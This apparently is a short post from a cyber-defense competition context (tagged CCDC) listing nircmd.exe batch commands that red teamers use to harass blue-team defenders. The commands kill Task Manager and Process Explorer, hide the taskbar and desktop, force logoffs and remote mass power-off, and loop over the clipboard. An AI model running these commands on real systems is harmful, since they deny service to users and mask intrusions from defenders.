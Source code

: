 = Psychological Warfare with NirCMD
:hp-tags: ccdc, nircmd, cli

One of the best ways to throw blue teamers off the scent of another host getting owned, which also has the added effect of stressing them out is a batch script that runs through some of the more annoying features in nircmd.exe in succession and at regular intervals:

[http://www.nirsoft.net/utils/nircmd.html](http://www.nirsoft.net/utils/nircmd.html)

* setdisplay 640x480
* killprocess taskmgr.exe
* killprocess procexp.exe
* win -style title "my computer" 0x00c00000
* win child title "my computer" +exstyle all 0x00400000
* win +exstyle title "my computer" 0x00400000
* win trans ititle "internet explorer" 256
* win close class "CabinetWClass"
* multiremote copy "c:tempcomputers.txt" exitwin poweroff force
* exitwin logoff
* standby
* monitor off
* win child class "Shell_TrayWnd" hide class "button"
* win hide class progman

Just to name a few...

another fun batch script to have running is 'echo knock knock | clip' in an endless and delayless loop. (I makes 'knock knock' the only thing that will ever be pasted ;-)
